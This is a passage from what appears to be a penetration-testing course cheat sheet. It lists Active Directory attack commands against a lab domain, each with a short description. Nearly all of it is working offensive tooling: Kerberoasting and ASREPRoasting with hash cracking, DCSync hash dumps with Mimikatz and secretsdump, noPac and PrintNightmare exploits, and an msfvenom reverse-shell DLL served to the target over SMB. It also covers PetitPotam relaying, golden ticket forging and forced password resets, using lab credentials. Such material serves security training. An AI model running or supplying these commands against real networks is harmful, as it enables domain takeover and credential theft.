| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev` | Impacket tool used to download/request (-request-user) a TGS ticket for a specific user account (sqldev) from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs` | Impacket tool used to download/request a TGS ticket for a specific user account and write the ticket to a file (-outputfile sqldev_tgs) from a Linux-based host. |
| `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force` | Attempts to crack the Kerberos (-m 13100) ticket hash (sqldev_tgs) using hashcat and a wordlist (rockyou.txt) from a Linux-based host. |
| `setspn.exe -Q */*` | Used to enumerate SPNs in a target Windows domain from a Windows-based host. |
| `Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"` | PowerShell script used to download/request the TGS ticket of a specific user from a Windows-based host. |
| `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }` | Used to download/request all TGS tickets from a Windows-based host. |
| `mimikatz # base64 /out:true` | Mimikatz command that ensures TGS tickets are extracted in base64 format from a Windows-based host. |
| `kerberos::list /export` | Mimikatz command used to extract the TGS tickets from a Windows-based host. |
| `echo "<base64 blob>" | tr -d \\n` | Used to prepare the base64 formatted TGS ticket for cracking from Linux-based host. |
| `cat encoded_file | base64 -d > sqldev.kirbi` | Used to output a file (encoded_file) into a .kirbi file in base64 (base64 -d > sqldev.kirbi) format from a Linux-based host. |
| `python2.7 kirbi2john.py sqldev.kirbi` | Used to extract the Kerberos ticket. This also creates a file called crack_file from a Linux-based host. |
| `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat` | Used to modify the crack_file for Hashcat from a Linux-based host. |
| `cat sqldev_tgs_hashcat` | Used to view the prepared hash from a Linux-based host. |
| `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt` | Used to crack the prepared Kerberos ticket hash (sqldev_tgs_hashcat) using a wordlist (rockyou.txt) from a Linux-based host. |
| `Import-Module .\PowerView.ps1 Get-DomainUser * -spn | select samaccountname` | Uses PowerView tool to extract TGS Tickets. Performed from a Windows-based host. |
| `Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat` | PowerView tool used to download/request the TGS ticket of a specific ticket and automatically format it for Hashcat from a Windows-based host. |
| `Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation` | Exports all TGS tickets to a .CSV file (ilfreight_tgs.csv) from a Windows-based host. |
| `cat .\ilfreight_tgs.csv` | Used to view the contents of the .csv file from a Windows-based host. |
| `.\Rubeus.exe` | Used to view the options and functionality possible with the tool Rubeus. Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /stats` | Used to check the kerberoast stats (/stats) within the target Windows domain from a Windows-based host. |
| `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap` | Used to request/download TGS tickets for accounts with the admin count set to 1 then formats the output in an easy to view & crack manner (/nowrap). Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /user:testspn /nowrap` | Used to request/download a TGS ticket for a specific user (/user:testspn) then formats the output in an easy to view & crack manner (/nowrap). Performed from a Windows-based host. |
| `Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes` | PowerView tool used to check the msDS-SupportedEncryptionType attribute associated with a specific user account (testspn). Performed from a Windows-based host. |
| `hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt` | Used to attempt to crack the ticket hash using a wordlist (rockyou.txt) from a Linux-based host. |

## ACL Enumeration & Tactics

| Command | Description |
|---------|-------------|
| `Find-InterestingDomainAcl` | PowerView tool used to find object ACLs in the target Windows domain with modification rights set to non-built in objects from a Windows-based host. |
| `Import-Module .\PowerView.ps1 $sid = Convert-NameToSid wley` | Used to import PowerView and retrieve the SID of a specific user account (wley) from a Windows-based host. |
| `Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}` | Used to find all Windows domain objects that the user has rights over by mapping the user's SID to the SecurityIdentifier property from a Windows-based host. |
| `$guid= "00299570-246d-11d0-a768-00aa006e0529" Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid | ?{$_.rightsGuid -eq $guid} | fl` | Used to perform a reverse search & map to a GUID value from a Windows-based host. |
| `Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}` | Used to discover a domain object's ACL by performing a search based on GUIDs (-ResolveGUIDs) from a Windows-based host. |
| `Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt` | Used to discover a group of user accounts in a target Windows domain and add the output to a text file (ad_users.txt) from a Windows-based host. |
| `foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}` | A foreach loop used to retrieve ACL information for each domain user in a target Windows domain by feeding each list of a text file(ad_users.txt) to the Get-ADUser cmdlet, then enumerates access rights of those users. Performed from a Windows-based host. |
| `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)` | Used to create a PSCredential Object from a Windows-based host. |
| `$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force` | Used to create a SecureString Object from a Windows-based host. |
| `Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose` | PowerView tool used to change the password of a specific user (damundsen) on a target Windows domain from a Windows-based host. |
| `Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members` | PowerView tool used to view the members of a target security group (Help Desk Level 1) from a Windows-based host. |
| `Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to add a specific user (damundsen) to a specific security group (Help Desk Level 1) in a target Windows domain from a Windows-based host. |
| `Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName` | PowerView tool used to view the members of a specific security group (Help Desk Level 1) and output only the username of each member (Select MemberName) of the group from a Windows-based host. |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose` | PowerView tool used to create a fake Service Principal Name given a specific user (adunn) from a Windows-based host. |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose` | PowerView tool used to remove the fake Service Principal Name created during the attack from a Windows-based host. |
| `Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to remove a specific user (damundsent) from a specific security group (Help Desk Level 1) from a Windows-based host. |
| `ConvertFrom-SddlString` | PowerShell cmdlet used to covert an SDDL string into a readable format. Performed from a Windows-based host. |

## DCSync

| Command | Description |
|---------|-------------|
| `Get-DomainUser -Identity adunn | select samaccountname,objectsid,memberof,useraccountcontrol |fl` | PowerView tool used to view the group membership of a specific user (adunn) in a target Windows domain. Performed from a Windows-based host. |
| `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl` | Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool Get-ObjectAcl to check a specific user's replication rights. Performed from a Windows-based host. |
| `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss` | Impacket tool used to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (172.16.5.5) and save the extracted hashes to a file (inlanefreight_hashes). Performed from a Linux-based host. |
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses Mimikatz to perform a dcsync attack from a Windows-based host. |

## Privileged Access

| Command | Description |
|---------|-------------|
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"` | PowerView based tool used to enumerate the Remote Desktop Users group on a Windows target (-ComputerName ACADEMY-EA-MS01) from a Windows-based host. |
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"` | PowerView based tool used to enumerate the Remote Management Users group on a Windows target (-ComputerName ACADEMY-EA-MS01) from a Windows-based host. |
| `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force` | Creates a variable ($password) set equal to the password (Klmcargo2) of a user from a Windows-based host. |
| `$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)` | Creates a variable ($cred) set equal to the username (forend) and password ($password) of a target domain account from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred` | Uses the PowerShell cmdlet Enter-PSSession to establish a PowerShell session with a target over the network (-ComputerName ACADEMY-EA-DB01) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior ($cred & $password). |
| `evil-winrm -i 10.129.201.234 -u forend` | Used to establish a PowerShell session with a Windows target from a Linux-based host using WinRM. |
| `Import-Module .\PowerUpSQL.ps1` | Used to import the PowerUpSQL tool. |
| `Get-SQLInstanceDomain` | PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host. |
| `Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'` | PowerUpSQL tool used to connect to a SQL server and query the version (-query 'Select @@version') from a Windows-based host. |
| `mssqlclient.py` | Impacket tool used to display the functionality and options provided with mssqlclient.py from a Linux-based host. |
| `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth` | Impacket tool used to connect to a MSSQL server from a Linux-based host. |
| `SQL> help` | Used to display mssqlclient.py options once connected to a MSSQL server. |
| `SQL> enable_xp_cmdshell` | Used to enable xp_cmdshell stored procedure that allows for executing OS commands via the database from a Linux-based host. |
| `xp_cmdshell whoami /priv` | Used to enumerate rights on a system using xp_cmdshell. |

## NoPac

| Command | Description |
|---------|-------------|
| `sudo git clone https://github.com/Ridter/noPac.git` | Used to clone a noPac exploit using git. Performed from a Linux-based host. |
| `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` | Runs scanner.py to check if a target system is vulnerable to noPac/Sam_The_Admin from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap` | Used to exploit the noPac/Sam_The_Admin vulnerability and gain a SYSTEM shell (-shell). Performed from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator` | Used to exploit the noPac/Sam_The_Admin vulnerability and perform a DCSync attack against the built-in Administrator account on a Domain Controller from a Linux-based host. |

## PrintNightmare

| Command | Description |
|---------|-------------|
| `git clone https://github.com/cube0x0/CVE-2021-1675.git` | Used to clone a PrintNightmare exploit using git from a Linux-based host. |
| `pip3 uninstall impacket git clone https://github.com/cube0x0/impacket cd impacket python3 ./setup.py install` | Used to ensure the exploit author's (cube0x0) version of Impacket is installed. This also uninstalls any previous Impacket version on a Linux-based host. |
| `rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'` | Used to check if a Windows target has MS-PAR & MS-RPRN exposed from a Linux-based host. |
| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll` | Used to generate a DLL payload to be used by the exploit to gain a shell session. Performed from a Windows-based host. |
| `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll` | Used to create an SMB server and host a shared folder (CompData) at the specified location on the local linux host. This can be used to host the DLL payload that the exploit will attempt to download to the host. Performed from a Linux-based host. |
| `sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'` | Executes the exploit and specifies the location of the DLL payload. Performed from a Linux-based host. |

## PetitPotam

| Command | Description |
|---------|-------------|
| `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | Impacket tool used to create an NTLM relay by specifying the web enrollment URL for the Certificate Authority host. Performed from a Linux-based host. |
| `git clone https://github.com/topotam/PetitPotam.git` | Used to clone the PetitPotam exploit using git. Performed from a Linux-based host. |
| `python3 PetitPotam.py 172.16.5.225 172.16.5.5` | Used to execute the PetitPotam exploit by specifying the IP address of the attack host (172.16.5.225) and the target Domain Controller (172.16.5.5). Performed from a Linux-based host. |
| `python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$ -pfx-base64 <base64 certificate> = dc01.ccache` | Uses gettgtpkinit.py to request a TGT ticket for the Domain Controller (dc01.ccache) from a Linux-based host. |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | Impacket tool used to perform a DCSync attack and retrieve one or all of the NTLM password hashes from the target Windows domain. Performed from a Linux-based host. |
| `klist` | krb5-user command used to view the contents of the ccache file. Performed from a Linux-based host. |
| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$` | Used to submit TGS requests using getnthash.py from a Linux-based host. |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | Impacket tool used to extract hashes from NTDS.dit using a DCSync attack and a captured hash (-hashes). Performed from a Linux-based host. |
| `.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /<base64 certificate>=/ptt` | Uses Rubeus to request a TGT and perform a pass-the-ticket attack using the machine account (/user:ACADEMY-EA-DC01$) of a Windows target. Performed from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt` | Performs a DCSync attack using Mimikatz. Performed from a Windows-based host. |

## Miscellaneous Misconfigurations

| Command | Description |
|---------|-------------|
| `Import-Module .\SecurityAssessment.ps1` | Used to import the module SecurityAssessment.ps1. Performed from a Windows-based host. |
| `Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | SecurityAssessment.ps1 based tool used to enumerate a Windows target for MS-PRN Printer bug. Performed from a Windows-based host. |
| `adidnsdump -u inlanefreight\forend ldap://172.16.5.5` | Used to resolve all records in a DNS zone over LDAP from a Linux-based host. |
| `adidnsdump -u inlanefreight\forend ldap://172.16.5.5 -r` | Used to resolve unknown records in a DNS zone by performing an A query (-r) from a Linux-based host. |
| `Get-DomainUser * | Select-Object samaccountname,description` | PowerView tool used to display the description field of select objects (Select-Object) on a target Windows domain from a Windows-based host. |
| `Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol` | PowerView tool used to check for the PASSWD_NOTREQD setting of select objects (Select-Object) on a target Windows domain from a Windows-based host. |
| `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts` | Used to list the contents of a share hosted on a Windows target from the context of a currently logged on user. Performed from a Windows-based host. |

## Group Policy Enumeration & Attacks

| Command | Description |
|---------|-------------|
| `gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE` | Tool used to decrypt a captured group policy preference password from a Linux-based host. |
| `crackmapexec smb -L | grep gpp` | Locates and retrieves a group policy preference password using CrackMapExec, then filters the output using grep. Performed from a Linux-based host. |
| `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin` | Locates and retrieves any credentials stored in the SYSVOL share of a Windows target using CrackMapExec from a Linux-based host. |
| `Get-DomainGPO | select displayname` | PowerView tool used to enumerate GPO names in a target Windows domain from a Windows-based host. |
| `Get-GPO -All | Select DisplayName` | PowerShell cmdlet used to enumerate GPO names. Performed from a Windows-based host. |
| `$sid=Convert-NameToSid "Domain Users"` | Creates a variable called $sid that is set equal to the Convert-NameToSid tool and specifies the group account Domain Users. Performed from a Windows-based host. |
| `Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}` | PowerView tool that is used to check if the Domain Users (eq $sid) group has any rights over one or more GPOs. Performed from a Windows-based host. |
| `Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532` | PowerShell cmdlet used to display the name of a GPO given a GUID. Performed from a Windows-based host. |

## ASREPRoasting

| Command | Description |
|---------|-------------|
| `Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl` | PowerView based tool used to search for the DONT_REQ_PREAUTH value across in user accounts in a target Windows domain. Performed from a Windows-based host. |
| `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat` | Uses Rubeus to perform an ASREP Roasting attack and formats the output for Hashcat. Performed from a Windows-based host. |
| `hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt` | Uses Hashcat to attempt to crack the captured hash using a wordlist (rockyou.txt). Performed from a Linux-based host. |
| `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt` | Enumerates users in a target Windows domain and automatically retrieves the AS for any users found that don't require Kerberos pre-authentication. Performed from a Linux-based host. |

## Trust Relationships - Child > Parent Trusts

| Command | Description |
|---------|-------------|
| `Import-Module activedirectory` | Used to import the Active Directory module. Performed from a Windows-based host. |
| `Get-ADTrust -Filter *` | PowerShell cmdlet used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |
| `Get-DomainTrust` | PowerView tool used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |
| `Get-DomainTrustMapping` | PowerView tool used to perform a domain trust mapping from a Windows-based host. |
| `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName` | PowerView tool used to enumerate users in a target child domain from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt` | Uses Mimikatz to obtain the KRBTGT account's NT Hash from a Windows-based host. |
| `Get-DomainSID` | PowerView tool used to get the SID for a target child domain from a Windows-based host. |
| `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid` | PowerView tool used to obtain the Enterprise Admins group's SID from a Windows-based host. |
| `ls \\academy-ea-dc01.inlanefreight.local\c$` | Used to attempt to list the contents of the C drive on a target Domain Controller. Performed from a Windows-based host. |
| `mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt` | Uses Mimikatz to create a Golden Ticket from a Windows-based host. |
| `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt` | Uses Rubeus to create a Golden Ticket from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm` | Uses Mimikatz to perform a DCSync attack from a Windows-based host. |
| `secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt` | Impacket tool used to perform a DCSync attack from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240` | Impacket tool used to perform a SID Brute forcing attack from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"` | Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"` | Impacket tool used to retrieve the SID of a target Windows domain and attach it to the Enterprise Admin group's RID from a Linux-based host. |
| `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker` | Impacket tool used to create a Golden Ticket from a Linux-based host. |
| `export KRB5CCNAME=hacker.ccache` | Used to set the KRB5CCNAME Environment Variable from a Linux-based host. |
| `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5` | Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host. |
| `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm` | Impacket tool that automatically performs an attack that escalates from child to parent domain. |

## Trust Relationships - Cross-Forest

| Command | Description |
|---------|-------------|
| `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName` | PowerView tool used to enumerate accounts for associated SPNs from a Windows-based host. |
| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof` | PowerView tool used to enumerate the mssqlsvc account from a Windows-based host. |
| `.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap` | Uses Rubeus to perform a Kerberoasting Attack against a target Windows domain (/domain:FREIGHTLOGISTICS.local) from a Windows-based host. |
| `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL` | PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator` | PowerShell cmdlet used to remotely connect to a target Windows system from a Windows-based host. |
| `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley` | Impacket tool used to request (-request) the TGS ticket of an account in a target Windows domain (-target-domain) from a Linux-based host. |
| `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2` | Runs the Python implementation of BloodHound against a target Windows domain from a Linux-based host. |
| `zip -r ilfreight_bh.zip *.json` | Used to compress multiple files into 1 single .zip file to be uploaded into the BloodHound GUI. |





